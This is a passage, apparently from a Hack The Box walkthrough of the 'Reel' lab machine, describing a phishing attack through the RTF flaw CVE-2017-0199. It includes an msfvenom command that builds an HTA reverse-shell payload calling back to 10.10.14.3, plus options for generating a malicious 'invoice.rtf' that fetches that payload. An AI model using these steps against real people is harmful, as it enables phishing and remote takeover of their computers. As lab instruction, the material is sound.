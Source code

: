     13 queries in 1 seconds (13.0 queries / sec)



It looks like anything with htb in the domain, and `nico@megabank.com`
comes back as valid.

## Phishing with RTF Dynamite

### RTF Exploit

At the time of Reel's release, there was a popular RTF exploit that was
being used very commonly in broad-based attacks,
[CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199). The
Metasploit module description does a good job explaining it at a high
level:

> Description: This module creates a malicious RTF file that when opened
> in vulnerable versions of Microsoft Word will lead to code execution.
> The flaw exists in how a olelink object can make a http(s) request,
> and execute hta code in response. This bug was originally seen being
> exploited in the wild starting in Oct 2016. This module was created by
> reversing a public malware sample.

To exploit CVE-2017-0199, I'll get the user will open an malicious RTF
file, which will make an HTTP request for an HTA file. I'll want that
HTA file to execute code to give me a shell.

### Without Metasploit

#### Generate Documents

First, I'll use `msfvenom` to generate an HTA file that will give me a
reverse shell:



    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f hta-psh -o msfv.hta
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of hta-psh file: 6535 bytes
    Saved as: msfv.hta



Next, I'll create an RTF file, using scripts from [this
GitHub](https://github.com/bhdresh/CVE-2017-0199) and the following
options:

-   `-M gen` - generate document
-   `-w invoice.rtf` - output file name
-   `-u http://10.10.14.3/msfv.hta` - url to get the hta from
-   `-t rtf` - create rtf document (as opposed to ppsx)
-   `-x 0` - disable rtf obfuscation
